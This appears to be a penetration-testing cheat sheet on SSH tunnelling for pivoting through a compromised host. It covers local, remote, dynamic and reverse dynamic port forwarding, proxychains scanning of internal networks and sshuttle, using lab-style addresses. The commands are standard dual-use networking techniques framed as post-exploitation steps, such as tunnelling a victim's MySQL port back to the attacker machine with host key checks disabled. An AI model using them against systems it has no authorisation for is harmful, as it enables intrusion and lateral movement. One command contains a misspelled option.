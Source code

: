 # ⭕ SSH Forwarding

## <mark style="color:red;">Local Port Forwarding</mark>

**Forwarding a port from attackers machine to a port on the compromised machine to access a specific port of a target host in the internal network.**

{% hint style="info" %}
No root access needed on compromised machine.
{% endhint %}

#### run this command on your attacking machine:

```
ssh -N -L localhost:localport:targethost:targetport [username@middlehost]
```

* localhost : attackers machine local ip address, usually use 0.0.0.0 for all interfaces.
* local port : port on attackers machine, will be used for connection later
* target host / port : ip and port of the target machine inside the internal network that we want to access
* middlehost : the compromised machine that is going to be used as a pivot point.

#### example for smb port 445:

```
ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128
```

test the connection:

```
nmap  127.0.0.1 -p 445
```

## <mark style="color:red;">Remote Port Forwarding</mark>

#### The reverse of local port forwarding. a port is opened on the compromised remote machine and the traffic sent to that port is forwarded to attackers local port (ssh client).

{% hint style="danger" %}
**SSH port forwards can be run as non-root users as long as we only bind unused non-privileged local ports (above 1024).**

SSH configurations on the attacker machine must allow remote connection to the given user and you have to enter the user password so **don't use the root account on your machine if you don't trust the middle host.**

**I will explain how to secure remote port forwarding connections in a bit.**
{% endhint %}

#### Run this command on the middle host (compromised target).

```
ssh -N -R attackerhost:attackerport:middlehost:middleport [username@attackerhost]
```

{% hint style="info" %}
Port numbers don't have to be the same here.
{% endhint %}

example for MySQL service port 3306:

```
ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

test from attacker machine:

```
nmap -sV 127.0.0.1 -p 2221
```

### <mark style="color:orange;">Secure Remote Port Forwarding</mark>

In situations when you dont trust the middle host (compromised pivot machine) its a huge risk to your security if you use the root account or enter the password in the ssh connection. also if you are running the command in a non-interactive shell you will run into a hurdle .

#### to avoid entering our password and having problems wtih non-interactive shells we can use a few ssh command options.

#### first create a pair of ssh keys to use instead of plain-text password:

```
# on compromised middle host enter:

mkdir keys
cd keys
ssh-keygen
```

#### now the new public key needs to be entered in our attacker host’s authorized\_keys file for the attacker user:

```
# on compromised middle host enter:
cat id_rsa.pub

# copy the public key to your kali machine authorized_keys file with the security options
```

#### To avoid potential security issues we can tighten the ssh configuration only permitting access coming from the middle host IP, then we need to ignore any commands that the user supplies with ssh command options. we also need to prevent agent and x11 forwarding with no-agent-forwarding and no-x11-forwarding options. finally we want to prevent the user from being allocated a tty device with the no-tty option

the final **`~/.ssh/authorized_keys`** file on attacker machine will be like this:

![](<../../.gitbook/assets/image (265).png>)

#### This entry allows the owner of the private key (middle host) to log in to our Kali machine but prevents them from running commands and only allows for port forwarding.

then we have to add some more ssh options:

**-f :** go to background

**-N :** not running commands

**UserKnownHostsFile=/dev/null :** prevent ssh from attempting to save the host key by sending the output to /dev/null

**StrictHostKeyChecking=no** : don't prompt us to accept the host key

#### the final ssh command:

```
ssh -f -N -R attackerhost:attackerport:middlehost:middleport -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i keys/id_rsa user@attackerhost
```

## <mark style="color:red;">Dynamic Forwarding</mark>

#### Allows us to set a local listening port and have it tunnel incoming traffic to any remote destination through the use of a proxy. this way we can use all of the ports from the pivot machine.

{% hint style="warning" %}
For this technique to work, we need proxychains or other proxy tools.
{% endhint %}

the syntax is like this:

```
ssh -N -D <attackerhost>:<attackerport> <username>@<middle host>
```

#### With the above syntax in mind, we can create a local SOCKS4 application proxy ( -N -D ) on our attacker machine on TCP port 8080 ( 127.0.0.1:8080 ), which will tunnel all incoming traffic to any host in the target network, through the compromised pivot machine, which we log into.

example:

```
sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
```

#### Now we must somehow direct our reconnaissance and attack tools to use this proxy. We can run any network application through HTTP, SOCKS4, and SOCKS5 proxies with the help of ProxyChains.

#### we simply edit the main configuration file `/etc/proxychains.conf` and add our SOCKS4 proxy to it:

![](<../../.gitbook/assets/image (264).png>)

{% hint style="warning" %}
Make sure that there are no ther proxy IPs in proxychains config file and the specified port is the same as the port in the SSH command.
{% endhint %}

{% hint style="info" %}
By default, ProxyChains will attempt to read its configuration file first from the current directory, then from the user’s $(HOME)/.proxychains directory, and finally from /etc/proxychains.conf. This allows us to run tools through multiple dynamic tunnels, depending on our needs. we can use the -f options with proxychains to specify the path to the configuration file we want to use.
{% endhint %}

#### To run our tools through our SOCKS4 proxy, we prepend each command with proxychains

```
proxychains nmap -sT -Pn -n 192.168.1.110  # must use -sT option
```

{% hint style="warning" %}
**In a dynamic port forwarding we have to use -sT option with nmap to run a full TCP connect scan. other scan methods dont work since we are using a proxy.**
{% endhint %}

## <mark style="color:red;">Reverse Dynamic Forwarding</mark>

#### as of OpenSSH version 7.6 (Released late 2017) SSH clients may generate dynamic reverse tunnels accessible to the server they connect to. What’s really cool is that you don’t need to update your server to version 7.6 before this trick will work. As long as the client supports it, the client enforces it when it completes the connection.

run this command on the compromised remote system (this looks like the remote port forwarding but by not specifying a host after the port the ssh client will create a socks proxy on attackers system):

```
ssh -f -N -R [attackers port] -o "UserKnownHostsFile=/dev/null" -o "StricktHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa   user@[attackers IP]
```

you can check if the port is open on attackers system:

```
netstat -tupln
# look for sshd with local address of 127.0.0.1:[attackers port]
```

​​now edit proxychains configs in /etc/proxychains.conf and add the port:

```
socks4 127.0.0.1 [attackers port]
```

now a stable tunnel is established and we can use proxychains for enumeration and connection:

```
proxychains nmap -sT -Pn [target local IP]
```

{% hint style="warning" %}
SOCKS proxy needs full TCP connection, we cant use other scanning techniques, ICMP can not get through either. use -Pn option.
{% endhint %}

## <mark style="color:red;">SSHuttle</mark>

```
# Transparent proxy over SSH

# Forwarding traffic through the pivot
# It will then auto create necessary iptables rules
sshuttle -r user@pivoting_machine x.x.x.x/24

# You can also let sshuttle detect networks based on the target
# -x == exclude some network to not transmit over the tunnel
sshuttle -vNr user@pivoting_machine -x x.x.x.x.x/24
```
